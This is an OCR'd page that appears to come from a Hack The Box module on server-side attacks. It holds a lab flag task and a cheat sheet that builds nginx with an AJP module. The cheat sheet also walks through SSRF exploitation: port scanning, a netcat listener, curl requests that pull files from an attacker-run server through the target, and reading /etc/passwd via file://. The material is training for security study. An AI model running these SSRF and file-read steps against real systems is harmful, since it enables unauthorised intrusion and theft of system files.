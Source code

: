 # Cheat Sheet

\+ 5 Read the content of 'flag.txt' through a server-side attack without registering an account and submit its content as your answer. Answer format: HTB{String}

**Table of Contents**

**Abusing Intermediary Applications**

**Server-Side Request Forgery (SSRF)**

**Server-Side Includes (SSI) Injection**

**Edge-Side Includes (ESI) Injection**

**Server-Side Template Injections**

**Extensible Stylesheet Language Transformations Server-Side Injections**

**Skills Assessment**

**My Workstation**

OFFLINE

/ 1 spawns left

&#x20; **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

### Nginx Reverse Proxy & AJP

| **Command**                                                                                                                                 | **Description**                                                                          |
| ------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- |
| `wget https://nginx.org/download/nginx-1.21.3.tar.gz`                                                                                       | Downloading nginx                                                                        |
| `tar -xzvf nginx-1.21.3.tar.gz`                                                                                                             | Extracting nginx tar file                                                                |
| `git clone https://github.com/dvershinin/nginx_ajp_module.git`                                                                              | Cloning nginx\_ajp source code                                                           |
| `cd nginx-1.21.3`                                                                                                                           | Navigating to nginx directory                                                            |
| `./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules` | Setting up the configuration for building and installing Nginx web server                |
| `make`                                                                                                                                      | GNU make utility to maintain groups of programs                                          |
| `sudo make install`                                                                                                                         | Instructing the make command to execute the installation target defined in the make file |
| `sudo nginx`                                                                                                                                | Starting the nginx server                                                                |

### SSRF Exploitation Example

| **Command**                                                                                                       | **Description**                                                                |
| ----------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------ |
| `nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`                                                                | Scanning the ports of the external target                                      |
| `curl -i -s -L http://<TARGET IP>`                                                                                | Interacting with the target and following redirects                            |
| `nc -lvnp 8080`                                                                                                   | Starting a netcat listener to test for SSRF                                    |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`                                         | Testing for SSRF vulnerability                                                 |
| `python3 -m http.server 9090`                                                                                     | Starting the python web server                                                 |
| `sudo pip3 install twisted`                                                                                       | Installing the ftp server                                                      |
| `sudo python3 -m twisted ftp -p 21 -r .`                                                                          | Starting the ftp server                                                        |
| `curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`                              | Retrieving a remote file through the target application (HTTP Schema)          |
| `curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`                                                       | Retrieving a local file through the target application (File Schema)           |